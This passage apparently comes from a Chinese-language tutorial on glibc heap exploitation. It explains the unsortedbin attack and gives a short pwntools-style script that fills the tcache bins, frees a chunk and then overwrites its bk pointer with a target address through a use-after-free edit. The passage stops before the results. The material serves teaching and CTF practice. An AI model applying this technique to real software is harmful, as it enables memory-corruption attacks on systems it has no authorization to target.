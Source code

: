 
![upload successful](/images/pasted-73.png)



以上是我们申请的堆块大小为0x68大小的时候。如果堆块更大一些，会到unsortedbin中，造成unsortedbin attack。

注意：unsortedbin是循环双链表，同时用到了fd指针和bk指针。



还是使用chunk来测试。由于最开始的7块会放到tcachebins中，所以要先把tcachebins填充掉。

脚本如下

```python
for i in range(10):
    add(i,0x108)

for i in range(7):
    free(i)

free(7)
edit(7,0x20,p64(0)+p64(0x602020))

pause()

p.interactive()
```

去edit free掉的7号块，传入地址，fd的地址为0，bk的地址为`0x602020`，结果如下

